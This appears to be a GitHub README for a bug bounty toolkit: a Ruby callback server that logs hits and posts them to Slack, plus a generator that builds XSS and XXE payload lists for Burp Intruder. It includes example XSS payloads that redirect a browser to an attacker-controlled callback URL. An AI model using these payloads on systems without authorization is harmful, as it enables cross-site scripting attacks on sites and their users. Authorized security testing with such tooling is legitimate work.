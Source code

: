 # :boom: Bug bounty in a box

This repository contains all\* that you should need to get up and running to test for bugs against your targets.

\* Ok, literally not _everything_ but it's a good start!

## :vertical_traffic_light: Project Status

This is by no means "production ready"; there are still some server configuration options that need to be explored before this should be run in production.

### :shipit: To-do list

1. Add more payloads!
1. Add more endpoints!
1. Add "Development" guide

## :running: Quickstart

To get up & hacking, you'll need to:

1. Move the configuration sample: `mv config/application.yml.sample config/application.yml`
1. Edit the `config/application.yml` to your preferences
1. Install the gems: `bundle install`
1. Start the server: `ruby app.rb`
1. Move the payload sample: `mv payloads/xss.yml.sample payloads/xss.yml`
1. Generate the payloads: `ruby generate_payloads.rb --callback=YOUR_SERVER_URL --target=YOUR_TARGET`
1. Use `payloads/xss.txt` in Burp's Intruder (or something similar)
1. Cross your fingers...
1. Profit!

### :whale: Docker Quickstart

_Note: You cannot currently generate payloads with the Docker container. The Docker container only runs the server._

To get up & running in Docker, clone this repository and run the following:

```bash
mv config/application.yml.sample config/application.yml
vim config/application.yml # Edit your config values!
mkdir -p logs
docker build -t bbb . && docker run -d \
-v $(pwd)/config/application.yml:/app/config/application.yml \
-v $(pwd)/logs/:/app/logs/ \
-p 4567:4567 \
-e "APP_ENV=production" \
bbb
```

Then, you should be able to `curl localhost:4567` and see the hello world!

### :globe_with_meridians: Production Quickstart

If you'd like to know how to set up the Bug Bounty in a Box callback server for "production" use, check out [the Wiki](https://github.com/andrewjkerr/bug-bounty-in-a-box/wiki/Running-in-%22production%22).

## :information_desk_person: How does this work?

This "bug bounty in a box" has two different components:
1. A payload callback server
1. A payload generator

### :pager: Callback Server

The callback server, written in Ruby & using [Sinatra](http://sinatrarb.com/), currently has the following capabilities:

* Callback: A callback with a payload & target parameter will log the "callback" to a on-server text log as well as send a Slack message to a Slack webhook. (`/callback`)
* Payloads: A payload file of your choice that will contain your callback URL. (`/payload`)
    * Currently supports:
        * JavaScript (`js`) for XSS
        * SVG (`svg`) for XSS
        * XML (`xml`) for XXE
        * XML (`svg`) for XXE
* Redirect: Redirects to a specified URL in the redirect GET parameter. (`/redirect`)
* Unauthorized: Throws a 401 for non-OPTIONS & non-HEAD requests. Also accepts a content_type parameter to return a specific content type. (`/unauthorized`)

#### Configuring the server

You can configure the server in `config/application.yml`! See below for the different configuration options.

##### Slack

In order to receive Slack callbacks, you'll need to set the appropriate `slack_url`. To generate an incoming webhook for your Slack instance, check out [Slack's Help Center](https://get.slack.help/hc/en-us/articles/115005265063-Incoming-WebHooks-for-Slack).

##### Logging

If you'd like to change either the frequency of the log rotation or the log filenames, check out the configuration file.

### :smiling_imp: Payload Generator

The payload generator uses `.yml` files to generate a `.txt` files that contain a list of payloads that can be used in a tool like Burp Intruder.

#### Running the payload generator

Before running the payload generator, make sure you have some properly formatted `.yml` files in the `payloads` folder! After you've done that, you'll need to run the payload generator with the `--callback` and `--target` flags like such:

```bash
ruby generate_payloads.rb --callback=localhost:4567/callback --target=www.example.com
```

Then, check out the `payloads` folder for the `.txt` file with a list of payloads!

#### Configuring payloads

In order to add a new class of payloads, just create a new `.yml` file with the following:

```yaml
name: XSS
payloads:
  - description: A simple XSS payload
    payload: <script>document.location='CALLBACK_URL'</script>
  - payload: <script>document.location="CALLBACK_URL"</script>
```

The `CALLBACK_URL` will be replaced with whatever is passed in with the `--callback` flag with some added parameters of (1) a callback description & (2) the target.

## :raised_hands: Contributing

Want to contribute? Great! Here's what you do:

1. Fork this repository
1. Push some code to your fork
1. Come back to this repository and open a PR
1. After some review, get that PR merged to master
1. :tada: Thank you for your contribution!!

Feel free to also open an issue with any bugs/comments/requests!
